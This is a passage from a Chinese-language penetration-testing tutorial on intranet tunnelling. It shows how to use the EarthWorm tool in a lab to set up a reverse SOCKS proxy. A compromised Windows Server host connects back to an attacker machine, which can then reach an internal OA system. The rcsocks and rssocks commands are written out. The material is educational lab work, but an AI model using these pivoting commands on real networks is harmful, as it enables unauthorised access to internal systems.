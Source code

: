 ```
使用代理打开火狐游览器即可尝试访问内网的OA系统。
```

![image-20241020210503528](内网隧道代理技术/image-20241020210503528.png)	

### EW一级反向代理

```
反向连接适合于目标没有公网 IP 的情况，这时就需要一台公网 vps 了，这里就直接以内网地址作为演示了。
实验环境攻击机win10(192.168.15.1)
控制靶机winserver2008(192.168.15.150和192.168.50.145)
内网OA系统(192.168.50.150)
```

```
win10攻击机执行
这意味着 EW 将流量从本地的 SOCKS 代理端口9875通过一个已经建立的隧道（通常是反向隧道或其它形式的连接）转发到本机上的 4444 端口。
ew_for_Win.exe -s rcsocks -l 9875 -e 4444
命令解释：
-s 表示启动的服务类型。在这里，rcsocks 表示 Remote Control SOCKS，这是一个反向 SOCKS 代理模式。
-l 表示本地监听的端口。
-e 表示出口端口。
```

![image-20241020230337325](内网隧道代理技术/image-20241020230337325.png)	

```
控制靶机server2008执行
通过4444端口反向代理到win10的4444端口。
ew_for_Win.exe -s rssocks -d 192.168.15.1 -e 4444
```

![image-20241020230657626](内网隧道代理技术/image-20241020230657626.png)	

```
当靶机输入完，则会显示ok，证明反向代理成功。
```

![image-20241020230807692](内网隧道代理技术/image-20241020230807692.png)	
